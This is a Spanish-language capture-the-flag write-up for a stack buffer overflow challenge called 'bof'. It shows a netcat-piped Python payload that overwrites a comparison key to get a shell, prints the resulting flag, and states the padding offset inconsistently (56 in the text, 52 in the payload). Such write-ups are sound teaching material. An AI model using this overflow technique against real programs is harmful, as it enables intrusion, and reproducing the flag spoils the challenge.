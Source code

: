 # bof

![bof](https://github.com/user-attachments/assets/9e5bb0b3-fc05-4c17-9b57-ee02c735321f)


Este es un buffer overflow clasico, necesitamos sobreescribir `key` para que la comparacion sea correcta, tambien en `readme` nos dicen que el programa esta corriendo en el puerto 9000 local, debemos explotarlo para encontrar la flag

Si hacemos un breakpoint en `*func+63` veremos que el offset es de 56 bytes (32 del arreglo, 16 que reserva el compilador, 4 de `ebp` y 4 de la direccion de retorno)

![2025-05-05-234246_929x529_scrot](https://github.com/user-attachments/assets/0d0c1380-9d62-4f5c-93cb-4b5b53f3a097)



```
bof@ubuntu:~$ cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
bof@ubuntu:~$ (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*52+b"\xbe\xba\xfe\xca\n")';cat) | nc 0 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
Daddy_I_just_pwned_a_buff3r!
```

`Daddy_I_just_pwned_a_buff3r!`
